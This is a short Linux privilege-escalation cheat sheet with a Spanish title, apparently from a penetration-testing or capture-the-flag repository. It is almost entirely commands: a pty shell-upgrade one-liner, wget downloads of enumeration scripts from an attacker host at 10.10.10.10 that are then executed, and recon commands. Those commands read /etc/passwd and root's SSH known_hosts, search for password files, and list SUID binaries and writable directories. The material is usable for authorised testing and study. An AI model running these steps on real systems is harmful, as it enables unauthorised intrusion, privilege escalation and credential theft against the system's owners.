 # Escalada de privilegios

Interactive Shells 

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Linux Scripts 

```sh
wget 10.10.10.10/linuxprivchecker.py
python linuxprivchecker.py

wget 10.10.10.10/linux-enum-mod.sh
chmod +x  linux-enum-mod.sh
sh linux-enum-mod.sh

wget 10.10.10.10/linux-local-enum.sh
chmod +x  linux-local-enum.sh
sh linux-local-enum.sh

wget 10.10.10.10/unix-privesc-check
chmod +x ./unix-privesc-check
./unix-privesc-check

wget 10.10.10.10/solaris-exploit-suggester.pl
perl solaris-exploit-suggester.pl

https://github.com/DominicBreuker/pspy

unix-privesc-check
```

Local

```sh
./linux-exploit-suggester.sh --uname 2.6.18-274.3.1.el5
```

Linux Commands
```sh
uname -a
id
cat /etc/*-release
cat /proc/version
cat /etc/issue
ifconfig -a
netstat -ano 
netstat --tcp
netstat -s --tcp
nmap -p - -sV localhost
cat /etc/passwd
cat /etc/hosts
arp -a
iptables -L
crontab -l
cat /root/.ssh/known_hosts
find . -name "*password*"
cat /etc/iptables/rules.v4
ss -anp
ls -lah /etc/cron*
crontab -l
dpkg -l
find / -writable -type d 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```